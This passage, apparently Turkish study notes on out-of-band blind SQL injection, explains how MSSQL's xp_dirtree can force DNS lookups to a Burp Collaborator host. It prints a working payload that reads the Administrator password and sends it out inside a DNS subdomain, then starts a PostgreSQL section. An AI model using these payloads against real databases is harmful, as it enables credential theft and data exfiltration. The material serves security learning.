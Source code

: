 **Örnek: MSSQL ile OAST**
Microsoft SQL Server üzerinde aşağıdaki payload, dışa DNS isteği gönderilmesini sağlar:

```sql
'; exec master..xp_dirtree '//örnek.burpcollaborator.net/a'-- 
```
Bu komut, veritabanını şu DNS adresine sorgu göndermeye zorlar: `örnek.burpcollaborator.net`

## Out-of-Band Kanal Üzerinden Veri Sızdırma
Blind SQL Injection zafiyetinin varlığı ve dışa DNS isteği tetiklenebildiği doğrulandıktan sonra, artık bu **OAST** kanalı üzerinden doğrudan veri sızdırmak mümkündür.

Bu teknikle, hassas bir veritabanı bilgisini DNS isteğine gömerek saldırganın kontrolündeki sunucuya göndermek mümkündür. Örnek:
```SQL
'; declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

**Payloadın içeriği :**
1. **Bir değişken tanımlar:** `@p` adında bir `varchar` değişkeni oluşturulur.
2. **Veriyi okur:** `@p` değişkenine "Administrator" kullanıcısının şifresi atanır.
3. **DNS isteği oluşturur:** `xp_dirtree` komutu, `@p` değişkenini içeren bir domain adına sorgu gönderir.
4. **Veri dışa çıkar:** Bu sorgu, Burp Collaborator üzerinden  şekildeki gibi gözlemlenebilir:
	`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

**Sorular ve Açıklamalar :**
1. `xp_dirtree`, Microsoft SQL Server’a özgü bir **extended stored procedure**’dür. Normalde bir dizin içeriğini listelemek için kullanılır. Örneğin:
	`EXEC master..xp_dirtree 'C:\'`
	Yukarıdaki kullanımda ise, saldırgan tarafından veritabanını DNS isteği yapmaya zorlamak için kulllanılır.
2. `@p` Değişkeni ve `varchar(1024)` Ne Anlama Geliyor?
	- `@p` burada bir **değişken**dir. SQL içinde veriyi geçici olarak tutmak için tanımlanır.
	- `varchar` (variable-length character) bir veri türüdür; **değişken uzunlukta metin** tutar. Yani sabit 1024 karakter yer kaplamaz, sadece gerekli kadar yer kullanır.
	- `(1024)` kısmı, bu değişkende tutulabilecek maksimum karakter sayısını belirtir.
3. DNS Üzerinden Veriyi Teker Teker mi Almalıyız? Toplu Alırsak Ne Olur?
	Evet, **DNS üzerinden veri sızdırırken sınırlamalar** vardır:
	- **DNS alt alan adları (subdomain) genelde maksimum 253 karakter** olabilir. (Her etiket 63 karakterle sınırlıdır, örn. `password1.example.com`)
	- DNS isteği sırasında `@p` içine büyük veri koyarsan, **istek başarısız olabilir** ya da **veri parçalanır.**
	- Ayrıca, DNS çözümleme sırasında bazı karakterler (örneğin boşluk, özel karakterler) geçersizdir ve veri bozulabilir.

**POSTGRESQL :**

PostgreSQL'de tablolar genellikle `public` adlı bir **şema (schema)** altında yer alır. Yani:

- `database` → içinde **schema** barındırır (örneğin: `public`, `admin`, `sales`)
- `schema` → içinde **table** barındırır
